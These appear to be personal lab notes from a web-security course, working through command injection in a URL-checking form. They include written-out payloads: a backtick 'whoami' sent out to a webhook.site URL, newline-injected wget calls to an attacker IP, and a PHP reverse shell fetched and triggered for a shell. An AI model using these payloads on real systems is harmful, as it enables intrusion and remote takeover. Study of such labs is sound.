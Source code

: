 
![[Pasted image 20230715153450.png]]

we get OK back

probably from response code 200 OK

test a non existent website name to see response

![[Pasted image 20230715153626.png]]

we get website not found

i/p:
https://tcm-sec.com ; whoami; asd

![[Pasted image 20230715153802.png]]

we get OK again but out ; are being filtered

i/p:

https://webhook.site/c50292e9-da33-4700-a16c-a67e8da06f85/? \`whoami\`

whoami inside  backtiks which will interpret as a command and execute it

![[Pasted image 20230715154505.png]]

o/p on webhook

![[Pasted image 20230715154539.png]]

user is www-data

this is out of band command injection since we have to catch it at other place reather than it being reflected back to us

i/p:

https://tcm-sec.com \\n wget http://192.168.57.5:8080/test

\\n to go to new line and execute the command

run 
python3 -m http.server 8080
port 80 already in use by tcm lab

![[Pasted image 20230715155113.png]]

![[Pasted image 20230715155440.png]]

edit the port and IP

![[Pasted image 20230715155552.png]]

renamed the file to rev.php

start http server again in /tmp folder when rev.php resides

i/p:
https://tcm-sec.com \\n wget http://192.168.57.5:8080/rev.php


![[Pasted image 20230716004644.png]]

go to 

localhost/labs/uploads/rev.php
and we get a reverse shell

![[Pasted image 20230716004541.png]]

and we get back a shell

